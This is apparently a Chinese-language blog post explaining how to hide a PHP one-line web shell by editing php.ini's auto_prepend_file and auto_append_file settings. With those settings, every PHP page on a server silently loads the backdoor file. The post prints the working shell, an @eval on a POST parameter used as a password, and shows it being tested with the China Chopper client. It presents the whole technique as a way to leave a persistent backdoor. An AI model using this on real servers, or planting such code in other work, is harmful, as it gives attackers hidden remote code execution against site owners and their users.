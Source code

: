 title: "利用php.ini隐藏一句话"
date: 2013-07-04 18:55:19
tags:
id: 308
comment: false
categories:
  - 学习笔记
---

利用php中的一个自动在文件中增加页眉和页脚的功能，隐藏[一句话](http://ha.cker.in/tag/一句话)。

在站点的某一目录（如：根目录）下编辑文件php脚本文件，名称为：info.php，内容如下 &lt;?php Phpinfo(); ?&gt; 在本地打开如：http://127.0.0.1/info.php 检查系统使用的配置文件 [![clip_image001](http://img.cker.in/php.ini_CBE2/clip_image001_thumb.png "特殊他.png") ](http://img.cker.in/php.ini_CBE2/clip_image001.png)

找到并编辑该配置文件 如下行： auto_prepend_file =test.php  #自动将“test.php”中的内容增加到任意文件的页眉位置 auto_append_file =fuck.php  #自动将“test.php”中的内容增加到任意文件的页脚位置 如果是unix则修改如下两行 ; UNIX: "/path1:/path2" ;include_path = ".:/php/includes" 我使用的是windows ; Windows: "\path1;\path2" include_path = "E:\PHPnow-1.5.6\htdocs;."#指定php 中的包含函数首先搜索的路径为“E:\PHPnow-1.5.6\htdocs”然后才是“.”即根。 在“E:\PHPnow-1.5.6\htdocs”创建名称（名称随意，上下保持一致即可）为“test.php”和“fuck.php”的脚本文件，其中包含最关键的一句话内容如下： &lt;?php @eval($_POST['pass']);      #pass 是密码 ?&gt; 使用caidao进行测试，如下：

[![clip_image002](http://img.cker.in/php.ini_CBE2/clip_image002_thumb.png "caidao.PNG") ](http://img.cker.in/php.ini_CBE2/clip_image002.png)

[![clip_image004](http://img.cker.in/php.ini_CBE2/clip_image004_thumb.jpg "caidao001.PNG") ](http://img.cker.in/php.ini_CBE2/clip_image004.jpg)

[![clip_image006](http://img.cker.in/php.ini_CBE2/clip_image006_thumb.jpg "caidao002.PNG") ](http://img.cker.in/php.ini_CBE2/clip_image006.jpg) 这样就可以完成使用“php.ini”达到留后门的目的

[http://ha.cker.in/1012.seo](http://ha.cker.in/1012.seo)